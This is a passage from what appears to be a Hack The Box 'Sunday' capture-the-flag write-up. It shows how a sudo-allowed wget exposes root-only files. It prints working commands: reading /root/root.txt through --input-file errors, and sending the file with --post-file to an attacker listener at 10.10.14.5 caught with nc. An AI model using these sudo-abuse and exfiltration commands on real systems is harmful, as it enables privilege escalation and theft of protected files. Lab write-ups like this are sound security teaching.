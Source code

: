 In enumerating as sammy, I see that sammy can sudo wget without password (either in [LinEnum.sh](https://github.com/rebootuser/LinEnum) output or from checking `sudo -l`).

### 6 Methods to root Using wget

There’s a ton of things we can do from here. Reading the [wget man page](https://linux.die.net/man/1/wget) provides a wealth of ideas. I’ll show six examples.

#### –input-file

The easiest way to just get the flag is to take advantage of the `--input-file` or `-i` flag on wget. This flag allows you to provide a file with the urls to visit. When it reads the hash, the string will fail to process as a url, and will tell us so in an error message, complete with flag:

```

sammy@sunday:~$ sudo wget --input-file /root/root.txt
/root/root.txt: Invalid URL fb40fab6...: Unsupported scheme
No URLs found in /root/root.txt.

```

#### Post Flag

A second method to exfil the flag is to have wget post the file back to us using `--post-file`. Unfortunately, python SimpleHTTPServer doesn’t support POST requests:

```

root@kali# python3 -m http.server 443
Serving HTTP on 0.0.0.0 port 443 (http://0.0.0.0:443/) ...
10.10.10.76 - - [27/Sep/2018 20:57:17] code 501, message Unsupported method ('POST')
10.10.10.76 - - [27/Sep/2018 20:57:17] "POST / HTTP/1.0" 501 -

```

However, in this, case I only need to read the POST, not respond to it, so a simple `nc` will work:

```

sammy@sunday:~$ sudo wget --post-file /root/root.txt http://10.10.14.5:443/
--00:52:35--  http://10.10.14.5:443/
           => `index.html'
Connecting to 10.10.14.5:443... connected.
HTTP request sent, awaiting response...

```

```

root@kali# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.76] 49337
POST / HTTP/1.0
User-Agent: Wget/1.10.2
Accept: */*
Host: 10.10.14.5:443
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

fb40fab6...

```
